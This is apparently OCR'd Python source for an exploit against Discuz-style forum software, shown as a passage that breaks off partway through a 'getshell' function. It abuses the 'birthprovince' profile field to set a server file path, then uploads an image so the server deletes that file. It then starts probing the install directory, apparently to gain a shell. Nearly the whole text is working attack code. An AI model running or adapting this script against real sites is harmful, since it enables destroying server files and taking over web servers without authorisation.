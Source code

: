 
    # sess.proxies.update({'http': 'socks5://localhost:1080'})
    # sess.proxies.update({'http': 'http://localhost:8080'})


    def login(username=None, password=None):
        sess.headers.update({'Cookie': cookie})


    def get_form_hash():
        r = sess.get(url)
        match = re.search(r'"member.php\?mod=logging&amp;action=logout&amp;formhash=(.*?)"', r.text, re.I)
        if match:
            return match.group(1)


    def tamper(formhash, file_to_delete):
        data = {
            'formhash': (None, formhash),
            'profilesubmit': (None, 'true'),
            'birthprovince': (None, file_to_delete)
        }
        r = sess.post(url, files=data)
        if 'parent.show_success' in r.text:
            print('tamperred successfully')
            return True


    def delete(formhash, file):
        if not tamper(formhash, file):
            return False

        image = b'iVBORw0KGgoAAAANSUhEUgAAAAoAAAAKCAIAAAACUFjqAAAADUlEQVR4nGNgGAWkAwABNgABVtF/yAAAAABJRU5ErkJggg=='
        data = {
            'formhash': formhash,
            'profilesubmit': 'true'
        }
        files = {
            'birthprovince': ('image.png', base64.b64decode(image), 'image/png')
        }
        r = sess.post(url, data=data, files=files)
        if 'parent.show_success' in r.text:
            print('delete {} successfully'.format(file))
            return True


    def getshell():
        install_url = target + '/install/index.php'
        r = sess.get(install_url)
        if '安装向导' not in r.text:
            print('install directory not exists')
            return False
